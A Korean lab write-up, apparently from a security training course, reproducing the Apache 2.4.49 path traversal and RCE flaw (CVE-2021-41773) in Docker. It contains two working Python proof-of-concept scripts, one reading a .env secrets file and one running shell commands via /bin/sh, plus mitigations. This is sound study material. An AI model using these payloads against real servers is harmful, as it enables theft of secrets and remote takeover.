

# Apache HTTP Server 2.4.49 Path Traversal & RCE (CVE-2021-41773)

**화이트햇 스쿨 4기 조인영**

## 1. 취약점 요약

| 항목  | 내용                        |
| --- | ------------------------- |
| CVE | CVE-2021-41773            |
| 대상  | Apache HTTP Server 2.4.49 |
| 유형  | Path Traversal            |

Apache HTTP Server 2.4.49에 도입된 경로 정규화 로직 변경에
결함이 있어 발생하는 취약점입니다. URL 경로 안의 `.` 를 퍼센트 인코딩한 `%2e` 를 사용하면
Apache가 이를 정규화하지 못하고 `../` 로 해석하여, `Alias` 또는 `ScriptAlias` 로 매핑된 상위 디렉토리의 파일에 접근할 수 있습니다.

- 대상 파일에 접근 권한이 있으면 **Arbitrary File Read** (비밀키 등)이 가능합니다.
- 매핑된 경로가 CGI 실행 경로라면 디렉토리를 탈출해 시스템 쉘에 도달시켜
  **RCE**까지 가능합니다.

## 2. 환경 구성

```
Apache/CVE-2021-41773/
├── docker-compose.yml
├── conf/
│   └── httpd.conf
├── poc/
│   ├── lfi.py
│   └── rce.py
├── .env
└── README.md
```

- Apache HTTP Server 2.4.49 (취약한 버전의 Apache HTTP Server) 이미지를 사용했습니다. (`httpd:2.4.49`)
- `conf` 폴더에 `httpd.conf`를 넣어 파일을 읽고 실행하는 환경을 구성했습니다.
- `poc` 폴더에 PoC 스크립트를 작성했습니다.
- `.env` 파일에 API 키를 넣어 API 키를 탈취하는 시나리오를 가정했습니다.

## 3. 취약 조건

`conf/httpd.conf`를 기본 파일에서 조금 변경했습니다. CVE 자체는 이 설정 없이도 작동하지만, 실제 파일을 읽거나 실행하려면 다음의 조건들이 필요합니다.

|     | 설정                                 | 기본값          | 변경            | 역할                                                                       |
| --- | ---------------------------------- | ------------ | ------------- | ------------------------------------------------------------------------ |
| 1   | `<Directory />` 의 `Require`        | `all denied` | `all granted` | Traversal 로 도달한 파일시스템 루트 하위 파일에 접근을 허용합니다.                               |
| 2   | `LoadModule cgid_module`           | 주석 처리        | 활성            | 도달한 `/bin/sh`를 CGI 로 실행해서 RCE를 할 수 있게 만듭니다.                              |
| 3   | `Include .../httpd-autoindex.conf` | 주석 처리        | 활성            | `Alias /icons/ "/usr/local/apache2/icons/"` 매핑을 제공해 Traversal 시작점을 확보합니다. |

## 4. 재현 절차

재현 전, Docker와 Python을 설치해야 합니다.

```bash
pip install requests
cd Apache/CVE-2021-41773
docker compose up -d
python poc/lfi.py
python poc/rce.py
docker compose down
```

`docker compose up -d` 으로 서버를 킨 다음, 두 개의 PoC 코드를 실행한 후 `docker compose down`로 서버를 닫습니다.

## 5. PoC 코드

`poc/lfi.py`
```python
import sys
import requests

BASE = sys.argv[1].rstrip('/') if len(sys.argv) > 1 else 'http://localhost:8080'

def raw_get(path):
    prepared = requests.Request('GET', BASE + path).prepare()
    prepared.url = BASE + path
    return requests.Session().send(prepared, timeout=10)

def main():
    print(f'[*] Target: {BASE}')
    print(f'[*] Read .env file')
    print(raw_get('/icons/.%2e/.%2e/.%2e/.%2e/.env').text.rstrip())

if __name__ == '__main__':
    main()
```

`.%2e`를 이용해 Path Traversal을 일으켜 `.env` 파일을 읽어 API 키를 탈취합니다.

`poc/rce.py`
```python
import sys
import requests

BASE = sys.argv[1].rstrip('/') if len(sys.argv) > 1 else 'http://localhost:8080'
SH_PATH = '/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'

def run(cmd):
    body = f'echo Content-Type: text/plain; echo; {cmd}'
    prepared = requests.Request('POST', BASE + SH_PATH, data=body).prepare()
    prepared.url = BASE + SH_PATH
    return requests.Session().send(prepared, timeout=10).text

def main():
    print(f'[*] Target: {BASE}')
    print('[*] Run "id" and "uname -a; whoami"')
    print(run('id').rstrip())
    print(run('uname -a; whoami').rstrip())

if __name__ == '__main__':
    main()
```

마찬가지로 `.%2e`를 이용해 Path Traversal을 일으켜 `/bin/sh`에 도달해 `id`와 `uname -a; whoami` 명령을 실행시킵니다.

## 6. 실행 결과



`.env` 파일을 읽어 시크릿 키를 유출하고, RCE까지 성공해 `id`와 `uname -a; whoami` 명령을 실행한 것을 확인할 수 있습니다.

## 7. 대응 방안

- **버전 업그레이드:** 취약한 2.4.49 버전에서 최신 버전으로 업그레이드합니다.
- **불필요한 권한 비활성화:** `httpd.conf`에서 불필요한 권한을 비활성화하여, 공격자가 취약점을 통해서 Arbitrary File Read나 RCE를 하지 못하게 합니다.
